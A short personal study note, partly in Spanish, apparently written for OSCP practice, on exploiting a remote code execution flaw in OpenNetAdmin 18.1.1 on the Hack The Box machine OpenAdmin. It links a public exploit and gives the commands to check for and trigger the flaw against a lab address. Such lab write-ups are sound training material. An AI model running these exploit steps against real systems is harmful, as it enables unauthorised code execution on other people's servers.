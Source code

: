 
## DESCRIPTION

OpenNetAdmin is a Network Management application for managing your IP subnets, hosts and much more.

**Versión 18.1.1 is vulnerable to RCE.

![[Pasted image 20230115120259.png]]

#### More information

* https://0xdf.gitlab.io/2020/05/02/htb-openadmin.html

## EXPLOITATION

1. Obtain version:
![Pasted image 20230111191626.png](app://local/C:/Users/Leo/Desktop/Leo/Documentos%20Importantes/OSCP/Prueba%20OSCP/M%C3%81QUINAS/images/Pasted%20image%2020230111191626.png?1673460986599)

2. Download exploit:

![[Pasted image 20230115120259.png]]

Existe uno en .sh pero buscando en google encontramos uno en python que es mejor.

Exploit  -->  https://github.com/amriunix/ona-rce

3. Comprobamos si es vulnerable:

```
python3 ona-rce.py check http://10.10.10.171/ona/
```

4. Exploit
```
python3 ona-rce.py exploit <<URL>>
```

![[Pasted image 20230115122841.png]]

## MACHINES

* Hack The Box: OPENADMIN